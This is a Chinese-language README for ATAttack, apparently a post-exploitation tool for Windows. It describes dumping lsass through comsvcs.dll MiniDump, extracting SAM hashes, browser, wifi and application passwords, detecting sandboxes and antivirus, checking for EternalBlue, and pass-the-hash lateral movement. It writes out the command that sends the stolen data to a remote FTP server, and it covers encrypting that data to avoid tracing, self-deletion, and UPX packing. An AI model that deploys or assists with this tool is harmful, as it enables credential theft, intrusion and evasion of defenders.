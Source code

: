 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎各位指正与建议，互相共同进步。

#### v1.0-开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5da3eacf32f2ca14fb78c69e)

##### 使用方法

###### cmd.exe

存储于本地文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

###### 一、基础信息获取：

1、系统驱动器信息获取，判断是否为沙箱环境，从而运行程序

2、系统进程识别，判断是否存在杀软av进程，对其进行输出

3、单机所有用户以及当前用户RDP远程连接导出 

4、当前系统已安装程序列表获取 

5、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp，半自动化离线解密  

3、通过netsh 导出系统 wifi密码、Windows Vaults 密码提取，

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie，

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 


###### 四、横向移动

1、探测网段存活，如存活则识别windows 系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机消息，暂命名为os_version.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`

##### 已知故障和错误列表


